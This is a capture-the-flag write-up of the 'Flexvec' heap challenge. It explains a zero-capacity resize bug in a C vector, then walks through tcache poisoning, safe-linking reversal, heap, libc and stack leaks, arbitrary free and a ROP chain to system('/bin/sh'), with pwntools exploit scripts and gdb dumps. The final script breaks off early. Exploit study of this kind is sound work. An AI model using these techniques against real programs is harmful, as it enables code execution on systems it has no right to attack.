

# Flexvec

## Introduction

This challenge was an open source heap challenge with full protections enabled. I didn't solve it during the CTF unfortunately. But I ended up solving it a few days later after the event. Shout out to [ptr-yudai](https://ptr-yudai.hatenablog.com/) for creating this amazing challenge.

You can download the challenge files below.



```bash
[*] '/home/xovert/ctf/A-FinalBhMEA2024/day2/flexvec/flexvec'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Below is the included source file of the pwnable.


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
  long *data;
  size_t size;
  size_t capacity;
} vector;

__attribute__((noreturn)) void oom() {
  puts("[-] Memory error");
  exit(1);
}

void _int_vector_resize(vector* vec, size_t size) {
  long *new;

  vec->capacity = size;
  if (!(new = (long*)malloc(vec->capacity * sizeof(long))))
    oom();

  memcpy(new, vec->data, vec->size * sizeof(long));
  free(vec->data);
  vec->data = new;
}

vector* vector_new(void) {
  vector *vec;

  if (!(vec = (vector*)malloc(sizeof(vector))))
    oom();

  vec->capacity = 4;
  vec->size = 0;
  if (!(vec->data = (long*)malloc(vec->capacity * sizeof(long))))
    oom();

  return vec;
}

void vector_push_back(vector* vec, long value) {
  if (vec->size == vec->capacity)
    _int_vector_resize(vec, vec->capacity * 2);

  vec->data[vec->size++] = value;
}

long vector_pop_back(vector *vec) {
  if (vec->size == 0) return 0;
  return vec->data[--vec->size];
}

void vector_shrink(vector *vec) {
  _int_vector_resize(vec, vec->size);
}

int main() {
  int choice;
  long value;
  vector *vec;

  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  vec = vector_new();

  puts("1. push_back\n2. pop_back\n3. shrink");
  while (1) {
    printf("> ");
    if (scanf("%d%*c", &choice) != 1) break;

    switch (choice) {
      case 1:
        printf("value: ");
        if (scanf("%ld%*c", &value) != 1) break;
        vector_push_back(vec, value);
        break;

      case 2:
        printf("value: %ld\n", vector_pop_back(vec));
        break;

      case 3:
        vector_shrink(vec);
        break;

      default:
        return 0;
    }
  }

  return 1;
}
```


This is a very simple binary that tries to implement a dynamically expandable vector-like storage in C. The vector structure itself is works in a LIFO manner, and does three basic things:

1. Push (add) a value to the end of the list.&#x20;
2. Pop (remove) a value from the end of the list.&#x20;
3. Shrink the vector storage size.

```c
typedef struct {
  long *data;
  size_t size;
  size_t capacity;
} vector;
```

The way the data structure works can be summarized up into:

1. A vector has a storage capacity and a size.
2. With each push operation, the size will get incremented.
3. With each pop operation, the size will get decremented.
4. If at any point the`size == capacity`, it will do four operations:
   1. Take the capacity \* 2, and set it as the new capacity.
   2. Malloc a new storage of the doubled capacity size.
   3. Memcpy from the old storage to the new storage, `size` times.
   4. Free the old storage.
5. If the user would like to shrink the vector storage, it would also do the following operations:
   1. Set the `capacity = size.`
   2. Malloc a new storage of the new capacity.
   3. Memcpy from the old storage to the new storage, `size` times.
   4. Free the old storage.

```c
vector* vector_new(void) {
  vector *vec;

  if (!(vec = (vector*)malloc(sizeof(vector))))
    oom();

  vec->capacity = 4;
  vec->size = 0;
  if (!(vec->data = (long*)malloc(vec->capacity * sizeof(long))))
    oom();

  return vec;
}
```

The vector data structured is implemented in the heap and with an initial capacity of 4, and of size 0.

## The bug

From all the known operations the program can do, it introduces a subtle bug that is almost unnoticeable.

```c
_int_vector_resize(vec, vec->size);
```

During shrinking, the exact current size of the vector is used as the new capacity. It introduces a problem when the size is equal to 0.

```c
void _int_vector_resize(vector* vec, size_t size) {
  long *new;

  vec->capacity = size; // capacity is immediately set to 0
  if (!(new = (long*)malloc(vec->capacity * sizeof(long))))
    oom();

  memcpy(new, vec->data, vec->size * sizeof(long));
  free(vec->data);
  vec->data = new;
}
```

In the resize function, the capacity is immediately set and that would cause the capacity to be 0. When the capacity is 0, would result in everything that is using the multiply operation with the capacity to result in 0 as well.

This means that, the malloc operation would result as if calling `malloc(0)`. This is not the only one that is affected by the 0 problem.

```c
void vector_push_back(vector* vec, long value) {
  if (vec->size == vec->capacity)
    _int_vector_resize(vec, vec->capacity * 2);

  vec->data[vec->size++] = value;
}
```

When pushing a value, it also calls the resize function and takes the capacity and multiplies it with 2. This would also result in calling the resize function with the size of 0.

***

This would then allow us to set both size and capacity to 0, and when we try to push a new value, it would call the pushback function, and since the `size == capacity`, it should call the resize function.


```c
  if (vec->size == vec->capacity)
    _int_vector_resize(vec, vec->capacity * 2);
```


However, as explained previously it would still cause the capacity to be 0. Yet, it still malloc a new storage, memcpy it, and then still push the value and incrementing the size.

```c
  vec->data[vec->size++] = value;
```

This would then allow us to have a condition where:

> Size = 1
>
> Capacity = 0

If we push a new value, this condition will make the size increase but never meets the condition to hit a resize, allowing us keep pushing new values until it overflows into the next chunk.

```bash
0x564173c8a280  0x0000000000000000      0x0000000000000000      ................
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> The Vector Data Structure
0x564173c8a2a0  0x0000564173c8a310      0x0000000000000004      ...sAV..........
0x564173c8a2b0  0x0000000000000000      0x0000000000000031      ........1.......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&.. <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000000      0x0000000000000000      ................
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2f0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&.. <-- tcachebins[0x20][0/1]
0x564173c8a300  0x0000000000000000      0x0000000000000021      ........!....... #--> Current Active Chunk
0x564173c8a310  0x00000000deadbeef      0x00000000deadbeef      ................
0x564173c8a320  0x00000000deadbeef      0x00000000deadbeef      ................ <-- Top chunk
```

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................
0x564173c8a270  0x0000000000000000      0x0000000000000000      ................
0x564173c8a280  0x0000000000000000      0x0000000000000000      ................
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x0000564173c8a310      0x0000000000000003      ...sAV..........
0x564173c8a2b0  0x0000000000000000      0x0000000000000031      ........1.......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&.. <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000000      0x0000000000000000      ................
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2f0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&.. <-- tcachebins[0x20][0/1]
0x564173c8a300  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a310  0x0000000000000001      0x0000000000000002      ................
0x564173c8a320  0x0000000000000003      0x0000000000020ce1      ................ <-- Top chunk
```

As can be seen, the 0xdeadbeef values overflows into the top chunk.&#x20;

> One thing to note, calling the shrink function twice would also allow us to create two chunks of the same size. Keep this in mind, as the next part would be using them.


The next part would explain roughly 80% of the exploitation path already, so feel free to try to tackle this challenge on your own.


***

## Leaking values

Well, we got an overflow. Now what? Well, that's easy, just leak all the values needed, overflow and do tcache poisoning then ROP!

<figure><figcaption></figcaption></figure>

I'm going to be honest-this was the one part that got me stuck for hours. I was only familiar with the traditional heap-note style challenges and couldn't wrap my head around the fact that there can only be one active chunk at a time. So, I was struggling to find an idea on how to leak **any** value.

To illustrate the struggles I was having, here are the constraints introduced in the exploitation:

1. Each push is an 8 byte value, therefore eliminating any chance for partial overwrite.
2. The only print value is from the pop function, which would mean that I need to have a size at (leak\_position+1), which is impossible. Because in order to increment the size, you need to push a value, effectively deleting the value we're trying to leak.
3. The input was using scanf, and I can't bypass it using '-' or '+', as it would return the scanf value to be less than 1, unable to increase the size value.
4. Only one active controllable chunk at a time. This means that we can't manually control both chunks to control the free operation.
5. The vector data structure lies at the top, so it's impossible to overflow into the vector data structure.
6. The memcpy operation would eliminate any garbage values, effectively removing any pointer values. The only time memcpy would not copy anything is when the 'n' value is 0. But even this, would still not be possible due to point 2.

The only safe value to tamper was the chunk size, and I couldn't get any idea on how to leverage that with just one active chunk. After the event, I asked one of the teams that solved the challenge, and I got a hint. The hint was to overflow into the size chunk. I still did not get it at the time :rofl:.

***

However, three kabsa rice and a can of soda later I somehow got the idea :tada:. The key lies in the fact that the `memcpy` operation happens before freeing the old storage.

```c
  if (!(new = (long*)malloc(vec->capacity * sizeof(long))))
    oom();

  memcpy(new, vec->data, vec->size * sizeof(long));
  free(vec->data);
```

If we take this into account, the idea would be somehow like this:

 memcpy -> free" class="gitbook-drawing">

This idea uses two overlapping chunks of the same size and utilize the fact that **shrinking twice** creates two chunks of the same size. If there are already two chunks, shrinking them multiple times would just make them switch between the two chunks.

To implement this, the path would be:

1. Overflow into a small sized chunk and change the size into 0x71.
2. Malloc into the overflown chunk.
3. Free the overflown chunk into 0x70 tcache bin.
4. Malloc into the 0x70 tcache bin.
5. Shrink them to switch chunks, and the leak will happen.

Implementing this, the pwntools script:


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'flexvec_patched')
libc = exe.libc
context.terminal = 'tmux splitw -h'.split()


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
set max-visualize-chunk-size 0x500
# tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def convert(val):
    return str(val).encode()

def push(val):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'value: ', val)

def pop():
    io.sendlineafter(b'> ', b'2')
    io.recvuntil(b'value: ')
    return io.recvline(keepends=False)

def shrink():
    io.sendlineafter(b'> ', b'3')

def xor(val):
    return (heapleak >> 12) ^ val

heapleak = 0

io = start()

shrink() # Immediately shrink to trigger the bug

push(convert(1))
push(convert(2))
push(convert(3))
shrink() # Shrink to reset
push(convert(0x21)) # Setup for tcache next_size check

# Set size to 0
for i in range(0x4):
    pop() 

shrink() # Shrink to trigger the bug
shrink() # Shrink twice to switch chunks

for i in range(0x3):
    push(convert(i+1)) 

push(convert(0x41)) # Overflow into next size
pop() # Pop
shrink() # Malloc into Overlapped chunk
push(convert(0x41)) # Do the setup for overlap
push(convert(0x5)) # next ptr
push(convert(0x6)) # tcache random number
shrink() # Shrink to switch and set up the leak

# Get the Leaks by popping.
randleak = eval(pop())
heapleak = eval(pop()) << 12 # Safe Linking Reversal
info(f'Heapleak: 0x{heapleak:02x}')
info(f'Randleak: 0x{(randleak & ~0):02x}')
```


Output:

```bash
0x564173c8a300  0x0000000000000003      0x0000000000000041      ........A....... #--> Overflown Chunk
0x564173c8a310  0x0000000000000001      0x0000000000000002      ................
0x564173c8a320  0x0000000000000003      0x0000000000000041      ........A....... #--> Overlapped Chunk
0x564173c8a330  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x40][0/1]
0x564173c8a340  0x0000000000000003      0x0000000000000041      ........A.......
0x564173c8a350  0x0000000000000005      0x0000000000000006      ................
0x564173c8a360  0x0000000000000000      0x0000000000020ca1      ................         <-- Top chunk
0x564173c8a370  0x0000000000000000      0x0000000000000000      ................
```

```python
[*] Heap leak: 0x564173c8a000
[*] Rand leak: 0x8fe726c9dc7a332d
```

Got it!

***

## Leaking libc address

The next step is to leak libc. The methods are exactly the same, just that it needs a bit more of heap massaging. I will leave this as an exercise to the reader. However, I will still include my method to leak libc in my final script.

## Leaking stack address

After getting both a Heap leak and a Libc leak, the next step is to do a stack leak. Leaking a stack address after getting a heap leak and a libc leak may sound simple, but for this challenge, there is a bit of a constraint.

For heap veterans, you might think that we can just do a stack leak by directly poisoning the tcache with the address of environ. However, this wouldn't work because we have two constraints that prevents this method from working:

> 6. The memcpy operation would eliminate any garbage values, effectively removing any pointer values. The only time memcpy would not copy anything is when the 'n' value is 0. But even this, would still not be possible due to point 2.

If you directly poison the tcache with environ's value, remember that there is memcpy, so the stackk value will get overwritten. You might think that you can utilize the size 0 to not copy any value, but that would also be impossible since you can't pop any value while size is 0, nor can you insert new values for the push operation would overwrite the stack address as well.&#x20;

> 4. Only one active controllable chunk at a time. This means that we can't manually control both chunks to control the free operation.

Reason number two is because the 4th constraint. So, even if we did somehow manage to get a stack leak, we will have to find a way back to the heap and do another tcache poison to the stack. You might think that it's as easy as just calling a shrink function, and you are almost right. Except...

```c
  if (!(new = (long*)malloc(vec->capacity * sizeof(long))))
    oom();

  memcpy(new, vec->data, vec->size * sizeof(long));
  free(vec->data); // <-- This thing right here
```

Whenever you call shrink, the old storage got freed. Leaking environ and going back to the heap would immediately fail the program since the data around environ is 0x0. There is no candidate value that can pass the tcache bin size check. Well then... what's next?

The answer is....

```bash
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x0000564173c8a310      0x0000000000000004      ...sAV..........
0x564173c8a2b0  0x0000000000000006
```

The Vector Data Structure

### The vector structure

The Vector Data Structure consists of three data:

<table data-full-width="false"><thead><tr><th width="200">Data</th><th>Usage</th></tr></thead><tbody><tr><td>Storage Pointer</td><td>Holds the base pointer to where the storage is. Used for memory operations.</td></tr><tr><td>Size</td><td>Holds the number of elements inside the vector. Used for pushing and popping values.</td></tr><tr><td>Capacity</td><td>Holds the maximum size of the vector storage. Used for resizing/expanding the vector storage.</td></tr></tbody></table>

The reason why we are targeting the vector structure is because of the storage pointer. The storage pointer is the only pointer in the whole heap that controls where we push value into, and where we pop values from. For example, if we set the storage pointer to an arbitrary address, it will write any value there and read any values from there as well. Basically, an arbitrary read/write primitive. But how is this going to help us in getting any leaks?

Before we go into that, let's first recap the problems we have:

1. There's no way of leaking stack address without overwriting it, either by memcpy or by pushing a value. We can't use the same way we used to leak libc and heap address because it's not the heap and we can't do overlapping chunks.
2. There's no way to return to the heap without breaking the program because of the free operation.&#x20;

***

#### Dealing with the first problem

For the first problem, we can utilize the existence of storage pointer. The storage pointer is the only pointer that exists in the heap, that controls where we write to (push a value), and where we read from (pop a value). Imagine if we could get a control of that, that'd mean we have arbitrary read and write.&#x20;

So yes, we'll do just that by poisoning the tcache and setting the target into an address near the vector struct and overwrite the storage pointer. However, this does not solve the second problem. Even if we did manage to get control of the storage pointer, we would still not be able to return to the heap so...

#### Dealing with the second problem

In the second problem, we are going to utilize the other usage of storage pointer. Apart from being used for indexing, the storage pointer will also be used in the memory operations such as malloc and free. Knowing this, if we gain control of the pointer, we can control the address of the memory being freed. But... can we do that?

Turns out yes, we can.

Recall again the order of the operation when resizing a storage. Malloc -> memcpy -> free. That's right, **memcpy happens before free.** Therefore, if we malloc near the vector struct it will then do a memcpy first and then free the value in the storage pointer after the memcpy. This means, that we can free any arbitrary address or set it to 0 to make it free(0).

***

Okay, so we dealt with the problems. Now how do we actually set it up? Well, I'm glad you asked.

### Gaining control of the Vector Structure

Now that we know what to do, let's try setting up an exploit. First, both solutions need us to tamper with the vector struct. To do that, we need to do a tcache poisoning to an address somewhere near the vector struct. For the address, I chose 0x564173c8a260.

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................ #--> My Chosen address
0x564173c8a270  0x0000000000000000      0x0000000000000000      ................
0x564173c8a280  0x0000000000000000      0x0000000000000000      ................
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> Vector Struct
0x564173c8a2a0  0x0000564173c8a310      0x0000000000000004      ...sAV..........
0x564173c8a2b0  0x0000000000000006      0x0000000000000031      ........1.......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000000      0x0000000000000000      ................
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2f0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x20][0/1]
0x564173c8a300  0x0000000000000003      0x0000000000000041      ........A.......
0x564173c8a310  0x0000000000000001      0x0000000000000002      ................
0x564173c8a320  0x0000000000000003      0x0000000000000041      ........A.......
0x564173c8a330  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x40][0/1]
0x564173c8a340  0x0000000000000003      0x0000000000000041      ........A.......
0x564173c8a350  0x0000000000000005      0x0000000000000006      ................
0x564173c8a360  0x0000000000000000      0x0000000000020ca1      ................         <-- Top chunk
0x564173c8a370  0x0000000000000000      0x0000000000000000      ................
```

So, the current exploit plan would be:

1. Poison the tcache to somewhere near the Vector Struct (0x564173c8a260).
2. Insert the poisoned value into the corresponding tcache bin by using the shrink and switch mechanism explained earlier.&#x20;
3. Prepare the payload that's going to get copied into the fake chunk and overlaps the vector struct.
4. Trigger the shrink and switch, it will then get copied into the vector struct.
5. The copied value will then get freed, and we successfully gain an arbitrary free.

The exploit plan:

```python
payload = [
    0x0, 0x0,
    0x0, 0x71,
    xor(heapleak+0x260), randleak, # --> poisoned tcache 
    0x0, 0x21,
    0xdeadbeef, 0x611, # --> value for arbitrary free (0xdeadbeef)
    libcleak, libcleak
]

for item in payload:
    push(convert(item))

shrink() # Poison the tcache
shrink() # Trigger the malloc & memcpy to get arbitrary free.
```

Let's check them out!

```
0x0000564417df9eea
0x564173c8a970  0x0000564417df9eea      0x8fe726c9dc7a332d      ....DV..-3z..&..         <-- tcachebins[0x70][0/2]
```

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................ # Our fake chunk
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q.......
0x564173c8a280  0x0000564417df9eea      0x0000000000000000      ....DV..........
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x00000000deadbeef      0x0000000000000611      ................ # Our arbitrary free
0x564173c8a2b0  0x00007f03e4c42b20      0x00007f03e4c42b20       +...... +......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000003      0x0000000000000021      ........!.......
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

As can be seen, the storage pointer now gets replaced with 0xdeadbeef. This should trigger a segmentation fault. Checking in gdb,

```glsl
pwndbg> bt
#0  0x00007f03e4aecd45 in __GI___libc_free (mem=0xdeadbeef) at ./malloc/malloc.c:3375
```

The free function was called with 0xdeadbeef indeed. So, we got our arbitrary free! But we don't really have any interesting target to free right now, so let's just set it to 0 for now to avoid the segfault.

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................ #--> Our Fake Chunk
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q.......
0x564173c8a280  0x0000564417df9eea      0x0000000000000000      ....DV..........
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x0000564173c8a260      0x0000000000000611      `..sAV.......... #--> Vector Struct
0x564173c8a2b0  0x00007f03e4c42b20      0x00007f03e4c42b20       +...... +......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000003      0x0000000000000021      ........!.......
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

Looking at the output again, somehow the storage pointer has turned into another address. If we check, it points to our fake chunk! So doing this, we also have allocated a fake chunk that overlaps the vector struct, and we can insert any values in there. That means we have gained control of all the data in the Vector Struct, most importantly the storage pointer.

Since we've gained control of it, now we just have to play with the push and pop operations such that it allows us to overwrite the storage pointer. I will not explain in detail about the push and pop operations, as this is fairly trivial since you only have to do a bit of math and utilize the tampered size field.

After gaining control of the storage pointer, we can push the address of libc's environ. Keep in mind that after doing this, our storage pointer will point to libc and we will not have any access to the heap. Let's do that!

```python
target = libc.sym.environ-0x38 #--> Adjusting to account for the size field.
push(convert(target))

pop()
stackleak = eval(pop())
info(f'StackLeak: 0x{stackleak:02x}')
```

Running that, and...

```python
[*] Heap leak: 0x564173c8a000
[*] Rand leak: 0x8fe726c9dc7a332d
[*] Libc Leak: 0x7f03e4c42b20
[*] Libc Base: 0x7f03e4a3f000
[*] Stack leak: 0x7fff44b0d4c8
```

We got the stack leak!

But... that still leaves us a problem... How do we actually get back to the heap? We would still trigger a segfault if we call shrink or any resize operations. Soo... what to do?

***

### Leveraging memcpy

The solution for this is actually really simple. We can just use arbitrary free provided by the second solution and set the storage pointer to 0 again before free! But, how to do that? Since after setting the storage pointer to point to libc, we no longer have any overlapping chunks. If we do the shrink method, all the pointers would point normally to heap, and no overlapping chunk pointers.

What if, we prepare another tcache poison beforehand to point to the same fake chunk address? We could do that, but I prefer to do it another way. Remember that when we initially gain control of the vector struct, we set the arbitrary free to 0x0? How about we just set it to a real address, a fake chunk address? That way, when the free happens it would also have another fake chunk pointer inside the tcache bin.

But how about the tcache size check? That's easy, just prepare a valid fake chunk size in the payload. After memcpy, the value will be written along with the arbitrary free value, and the freed pointer would point to the fake size chunk. It would then be inserted into the tcache bin.

Let's do that!

```python
payload = [
    0x0, 0x0,
    0x0, 0x71, # Our fake_chunk_size
    xor(heapleak+0x260), randleak, # --> poisoned tcache 
    0x0, 0x21,
    heapleak+0x280, 0x611, # --> Arbitrary free, points to fake_chunk_size+0x8 (tcache points to user field)
    libcleak, libcleak
]
```

Using this payload to set it up, now we can have another fake chunk in tcache bin.

```glsl
pwndbg> bins
tcachebins
0x20 [  2]: 0x564173c8a950 —▸ 0x564173c8a2f0 ◂— 0x0
0x30 [  1]: 0x564173c8a2c0 ◂— 0x0
0x40 [  2]: 0x564173c8a330 —▸ 0x564173c8a310 ◂— 0x0
0x70 [  1]: 0x564173c8a280 ◂— 0x564173c8a
```

As you can see, we have successfully inserted another fake chunk of address 0x564173c8a280 in the 0x70 tcache bin.

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................ #--> Current Fake Chunk
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q....... #--> Fake Chunk Size
0x564173c8a280  0x0000000000000000      0x8fe726c9dc7a332d      ........-3z..&..         <-- tcachebins[0x70][0/1] #--> Newly inserted fake chunk
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> Vector Struct
0x564173c8a2a0  0x00007f03e4c49d20      0x0000000000000007       ...............
0x564173c8a2b0  0xfffffffffffffd70      0x0000000000000031      p.......1.......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000003      0x0000000000000021      ........!.......
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

Now that we successfully gain a stack leak, and prepared a fake chunk in the tcache bin, we just have to set the proper size in the libc, and call shrink!

### Returning to the heap

The current state in Libc's environ:

```bash
pwndbg> dq (long)&environ-0x38 20
00007f03e4c49d20     0000000000000000 0000000000000000
00007f03e4c49d30     0000000000000000 0000000000000000
00007f03e4c49d40     0000000000000000 0000000000000000
00007f03e4c49d50     0000000000000000 00007fff44b0d4c8
00007f03e4c49d60     0000000000000000 0000000000000000
00007f03e4c49d70     0000564173cab000 0000000000000000
00007f03e4c49d80     0000000000000000 0000000000000000
00007f03e4c49d90     0000000000000000 0000000000000000
00007f03e4c49da0     0000000000000000 0000000000000000
00007f03e4c49db0     0000000000000000 0000000000000000
```

This is the active fake chunk currently used to leak a stack address. As for the current vector struct state:

```bash
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x00007f03e4c49d20      0x0000000000000007       ...............
0x564173c8a2b0  0xfffffffffffffd70      0x0000000000000031      p.......1.......
```

As can be seen, the current size is 7. However, to malloc from the 0x70 tcache bin, we need to have a size of 12 (0xc). Since the values will be memcpy'd, I set up a payload that retain libc's environ value, and set the size and capacity to prepare for the next step of the exploit.

```python
for i in range(7):
    pop() #Empty out the size

fakestruct = [
    0x0, 0x0,
    0x0, 0x21, # Vector struct chunk size.
    0x0, 0x4, # Arbitrary free to 0, and set size to 0x4
    -1, stackleak, # Set max capacity and Retain Libc's Environ value.
    0x0, 0x0,
    heapleak+0x21000, 0x0 # Retain __curbrk value
]

for member in fakestruct:
    push(convert(member)) #push values

shrink() #Trigger the malloc.
```

We run that, and then check the heap in gdb:

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q....... #--> Second Fake Chunk
0x564173c8a280  0x0000000000000000      0x0000000000000000      ................
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> Vector Struct
0x564173c8a2a0  0x0000564173c8a280      0x0000000000000004      ...sAV.......... #--> Overlapping Chunk with size 0x4
0x564173c8a2b0  0xffffffffffffffff      0x00007fff44b0d4c8      ...........D....
0x564173c8a2c0  0x0000000000000000      0x0000000000000000      ................         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000564173cab000      0x0000000000000000      ...sAV..........
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

We now got control of the heap again!

## Final exploit

Since we've prepared the appropriate size of 4, right now the pointer (0x564173c8a280)\[4] equals the storage pointer. So, we just need to push the appropriate stack pointer (RIP) and then clean the storage by popping and insert our ROP chain.

Pushing the appropriate stack pointer:

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q....... #--> Second Fake Chunk
0x564173c8a280  0x0000000000000000      0x0000000000000000      ................
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> Vector Struct
0x564173c8a2a0  0x00007fff44b0d398      0x0000000000000004      ...D............ #--> Storage pointer pointing to stack
0x564173c8a2b0  0xffffffffffffffff      0x00007fff44b0d4c8      ...........D....
0x564173c8a2c0  0x0000000000000000      0x0000000000000000      ................         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000564173cab000      0x0000000000000000      ...sAV..........
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

Write your ROP chain:

```glsl
pwndbg> tele $rbp
00:0000│ rbp 0x7fff44b0d390 —▸ 0x7fff44b0d430 —▸ 0x7fff44b0d490 ◂— 0x0
01:0008│+008 0x7fff44b0d398 —▸ 0x7f03e4a6782f (abort+15) ◂— ret
02:0010│+010 0x7fff44b0d3a0 —▸ 0x7f03e4b4e75b (__spawnix+875) ◂— pop rdi
03:0018│+018 0x7fff44b0d3a8 —▸ 0x7f03e4c0a42f ◂— 0x68732f6e69622f /* '/bin/sh' */
04:0020│+020 0x7fff44b0d3b0 —▸ 0x7f03e4a97740 (system) ◂— endbr64
05:0028│+028 0x7fff44b0d3b8 —▸ 0x56413cb9b45d (main) ◂— endbr64
06:0030│+030 0x7fff44b0d3c0 —▸ 0x7fff44b0d4b8 —▸ 0x7fff44b0e491 ◂— '/home/xovert/ctf/A-FinalBhMEA2024/day2/flexvec/flexvec_patched'
07:0038│+038 0x7fff44b0d3c8 ◂— 0x6e87e63862899553
```

```sh
[*] Switching to interactive mode
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat /flag*
FLAG{REDACTED}
```

Unfortunately, I did not solve this challenge during the event :cry:.

Final exploit:


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'flexvec_patched')
libc = exe.libc
context.terminal = 'tmux splitw -h'.split()


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote('127.0.0.1', 5000)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
set max-visualize-chunk-size 0x500
# tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def convert(val):
    return str(val).encode()

def push(val):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'value: ', val)

def pop():
    io.sendlineafter(b'> ', b'2')
    io.recvuntil(b'value: ')
    return io.recvline(keepends=False)

def shrink():
    io.sendlineafter(b'> ', b'3')

def xor(val):
    return (heapleak >> 12) ^ val

def replace(val):
    pop()
    push(val)
    pop()

heapleak = 0

io = start()

# ========= Heap Leak ============

